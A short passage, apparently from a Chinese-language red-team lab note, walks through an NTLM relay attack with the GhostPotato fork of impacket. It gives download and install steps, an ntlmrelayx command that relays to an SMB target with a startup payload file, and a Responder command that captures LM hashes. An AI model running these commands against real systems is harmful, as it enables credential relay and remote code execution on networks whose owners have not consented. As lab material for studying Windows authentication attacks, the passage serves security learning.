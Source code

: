 - https://shenaniganslabs.io/files/impacket-ghostpotato.zip
    ```
    cd impacket-ghostpotato
    pip uninstall impacket
    pip install .
    cd examples
    python ntlmrelayx.py -t smb://192.168.141.131 -smb2support --gpotato-startup exploit.txt
    ```

    ```
    responder -I eth0 --lm
    ```

    使用 IE 浏览器进行访问

    ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/21.png)

    等待五分十五秒
